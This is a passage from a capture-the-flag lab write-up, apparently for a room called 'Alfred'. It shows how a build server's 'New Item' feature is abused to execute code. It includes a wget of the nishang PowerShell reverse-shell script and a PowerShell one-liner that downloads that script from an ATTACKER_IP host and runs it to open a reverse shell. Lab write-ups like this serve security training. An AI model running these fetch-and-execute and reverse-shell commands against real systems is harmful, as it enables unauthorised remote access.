 ![Dashboard](/assets/img/writeup_assets/alfred/dashboard.png)

The `New Item` tool on the dashboard can then be used to upload a payload that will be executed in order to provide a reverse shell access. To do this, we'll first need a reverse TCP shell that uses powershell. As the room instructs in it's first task, we're to use `nishang` for this powershell script. 

```shell-session
$ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Once we have the shell, we can use the `NewItem` tool to upload the file and make the server execute the following commnad:
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:PORT/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port PORT
```
